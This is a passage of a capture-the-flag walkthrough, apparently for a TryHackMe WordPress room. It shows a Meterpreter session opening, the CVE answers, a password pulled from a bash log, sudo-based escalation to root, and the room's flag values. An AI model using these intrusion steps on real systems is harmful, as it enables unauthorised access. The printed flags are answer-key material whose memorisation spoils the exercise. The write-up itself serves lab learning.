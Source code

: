 ```bash
[+] Deleted CMRdTO.php
[*] Meterpreter session 1 opened (10.9.2.60:4444 -> 10.10.184.227:58718) at 2021-05-03 19:42:28 +0200

```

### Questions


- What CMS is running on the machine?
> wordpress

- What is the CVE number for directory traversal vulnerability?
> CVE-2020-11738

- What is the CVE number for remote code execution vulnerability?
> CVE-2020-25213

- What is the name of user that was running CMS?
> cth

-What is the user flag?
> THM{227906201d17d9c45aa93d0122ea1af7}


## Privilege Escalation
 
 - The old password was stored in `cat /var/log/bash.log` : [ G00dP@$sw0rd2020 ] 
 
 ```bash
 cth@badbyte:/home$ sudo -l
sudo -l
[sudo] password for cth: G00dP@$sw0rd2021

Matching Defaults entries for cth on badbyte:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
cth@badbyte:/home$ sudo -s
sudo -s

root@badbyte:~# cat root.txt
cat root.txt
  |      ______    ________   ________              ______        _____________ __________  |
  |     / ____ \  /  ___   \ /   ____ \            / ____ \      /____    ____//   ______/\ |
  |    / /___/_/ /  /__/   //   /   / /\          / /___/_/      \___/   /\___/   /______\/ |
  |   / _____ \ /  ____   //   /   / / /         / _____ \ __   ___ /   / /  /   ____/\     |
  |  / /____/ //  / __/  //   /___/ / /         / /____/ //  | /  //   / /  /   /____\/     |
  | /________//__/ / /__//_________/ /         /________/ |  \/  //___/ /  /   /________    |
  | \________\\__\/  \__\\_________\/          \________\  \    / \___\/  /____________/\   | 
  |                                  _________           __/   / /        \____________\/   |
  |                                 /________/\         /_____/ /                           |
  |                                 \________\/         \_____\/                            |

THM{ad485b44f63393b6a9225974909da5fa}

```
### Questions
